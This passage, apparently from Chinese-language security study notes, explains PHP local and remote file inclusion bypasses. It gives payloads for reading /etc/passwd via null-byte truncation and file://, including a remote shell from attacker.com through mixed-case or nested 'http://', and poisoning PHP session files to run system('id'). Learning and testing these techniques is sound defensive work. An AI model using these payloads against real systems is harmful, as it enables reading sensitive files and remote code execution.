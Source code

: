         这里 `..//..//` 实现了与 `../../` 相同的目录上移效果，但因为包含 `//` 而不完全匹配被过滤的 `../..` 字符串。文件系统通常会将 `//` 视为 `/`。

*   **绕过 RFI 协议过滤 (`http://`, `https://`)**:
    *   **大小写混合**: `?page=hTtP://attacker.com/shell.txt`
    *   **双写/嵌套**: 如果只替换一次 `http://`：
        `?page=htthttp://p://attacker.com/shell.txt` -> (替换后) `http://attacker.com/shell.txt`
    *   **使用其他协议**: 如果目标环境支持且未被过滤，尝试 `ftp://`, `https://` (如果只过滤 `http://`) 等。
    *   **URL 编码**: `http://` -> `http%3a//`

*   **绕过后缀限制**: 如果代码强制添加后缀 (如 `.php`)：
    *   **%00 空字节截断 (PHP < 5.3.4)**: `?page=../../../../etc/passwd%00`
        `include("path/to/" . $_GET['page'] . ".php");` -> `include("path/to/../../../../etc/passwd\0.php");` (空字节后的内容被忽略)。
    *   **路径长度限制**: 尝试超长路径名，可能导致后缀被截断 (取决于操作系统和 PHP 版本)。
    *   **点号截断 (特定 Windows 环境)**: 尝试在文件名末尾添加大量点号 `.`，如 `?page=shell.txt....................`。
    *   **利用 `?` 截断 (结合 RFI)**: `?page=http://attacker.com/shell.txt?` (问号后的 `.php` 可能被远程服务器视为参数)。

#### 5. 绕过文件名检查 (`fnmatch` / `file://`)

有时开发者会限制只能包含特定模式的文件名，例如使用 `fnmatch("file*", $filename)` 强制必须以 "file" 开头。

*   **利用 `file://` 协议**: `file://` 协议用于访问本地文件系统，其本身就以 "file" 开头，可以用来绕过这种检查，同时仍然能访问任意本地文件。
    ```php
    // 假设代码类似:
    // if (!fnmatch("file*", $_GET['page']) && $_GET['page'] != "include.php") {
    //    die("Invalid file.");
    // }
    // include($_GET['page']);
    ```
    *   **绕过 URL**:
        `?page=file:///etc/passwd`
        `?page=file:///C:/Windows/System32/drivers/etc/hosts`

#### 6. 利用 PHP Session 文件

如果攻击者可以某种程度上控制 Session 变量的内容，并且知道 Session 文件的存储路径，可以尝试将 PHP 代码注入到 Session 数据中，然后利用 LFI 包含 Session 文件来执行代码。

*   **场景**: 假设应用将用户输入存入 Session：
    ```php
    // vulnerable_page.php
    session_start();
    if(isset($_GET['user_input'])){
        $_SESSION['userpref'] = $_GET['user_input'];
    }
    // ... later in the code, an LFI vulnerability exists ...
    include($_GET['page']);
    ```
*   **步骤**:
    1.  **注入代码**: 访问页面，将 PHP 代码作为输入，使其存入 Session。
        `http://vulnerable.com/vulnerable_page.php?user_input=<?php system('id'); ?>`
        这段代码现在被存储在服务器上的该用户的 Session 文件里。
    2.  **获取 Session ID**: 从浏览器 Cookie 中找到 `PHPSESSID` 的值。
    3.  **确定 Session 文件路径**: PHP Session 文件通常存储在 `/var/lib/php/sessions/` (Debian/Ubuntu), `/tmp/` 或其他 `session.save_path` 指定的位置。文件名通常是 `sess_[PHPSESSID]`。
    4.  **包含 Session 文件**: 利用 LFI 漏洞包含该 Session 文件。
        `http://vulnerable.com/index.php?page=../../../../var/lib/php/sessions/sess_YOUR_SESSION_ID_HERE`
*   **结果**: 服务器包含 Session 文件时，会执行其中注入的 PHP 代码。


[[常见敏感文件路径]]
